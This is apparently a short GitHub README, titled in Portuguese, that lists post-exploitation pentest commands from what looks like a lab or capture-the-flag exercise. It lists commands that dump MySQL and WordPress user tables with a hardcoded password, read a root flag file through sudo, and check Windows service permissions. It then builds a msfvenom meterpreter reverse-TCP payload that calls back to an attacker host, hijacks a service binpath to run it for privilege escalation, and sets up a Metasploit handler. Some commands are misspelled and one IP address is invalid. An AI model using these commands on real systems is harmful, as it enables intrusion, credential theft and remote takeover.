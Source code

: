 # posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/




